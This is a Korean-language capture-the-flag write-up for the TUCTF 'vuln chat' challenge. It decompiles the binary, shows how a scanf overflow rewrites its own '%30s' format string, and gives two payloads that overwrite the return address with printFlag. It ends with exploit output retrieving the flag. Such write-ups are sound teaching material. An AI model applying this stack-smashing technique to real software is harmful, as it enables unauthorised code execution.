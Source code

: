 # vuln chat
50 point  
  
One of our informants goes by the handle djinn. He found some information while working undercover inside an organized crime ring. Although we've had trouble retrieving this information from him. He left us this chat client to talk with him. Let's see if he trusts you...  
  
nc vulnchat.tuctf.com 4141  
  
vuln-chat - md5: 5d081990e899864c9dc85b1cf255af6e  

-------

일단 실행시켜보면
```
# ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: a
Welcome a!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
a: b
djinn: Sorry. That's not good enough
```
`username`을 받고 `trust` 를 받는다는 것을 알수가 있었고  
바로 바이너리 분석에 들어갔습니다.  
```
[0x08048470]> afl~printFlag
0x0804856b    1 31           sym.printFlag
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
심볼 strip 되있지는 않아서 바로 printFlag() 함수를 찾을 수 있습니다.  
bof 문제로 RET printFlag() 덮어주면 됩니다.  

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+3h] [bp-2Dh]@1
  char v5; // [sp+17h] [bp-19h]@1
  int v6; // [sp+2Bh] [bp-5h]@1
  char v7; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 0x73303325;					// "%30s"
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
처음 scanf() 는 길이가 "%30s" 로 정해져 있습니다.  
`__isoc99_scanf(&v6, &v5);`  
`v5`로부터 길이 30은 0x19-30=-5 `ebp+5` 까지 덮을 수 있으며  
`v6`, `v7`, `sfp`, `ret`의 1바이트에 영향을 줄 수가 있습니다.  
중요한 것은 `v6` 가 "%30s" 문자열 형태로 길이제한에 대한 정보를 갖고 있으며 변조가 가능하다는 것입니다.  
`v5`부터 `v6`까지의 거리는 0x19-0x5=20  
`payload = "1" * 20 + "%99s"`  
  
두 번째 scanf() 는 이제 길이 제한이 풀린 것이나 다름없습니다.  
`__isoc99_scanf(&v6, &v4);`  
`v4` 부터 RET 까지의 거리 : 0x2D+4  
0x2D+4+4=53  
`payload2 = "1" * (0x2D+4) + p32(printFlag)`  

```
# python exploit.py
[+] Opening connection to vulnchat.tuctf.com on port 4141: Done
[*] Switching to interactive mode
djinn: Sorry. That's not good enough
TUCTF{574ck_5m45h1n6_l1k3_4_pr0}
Use it wisely
[*] Got EOF while reading in interactive
$
[*] Closed connection to vulnchat.tuctf.com port 4141
```
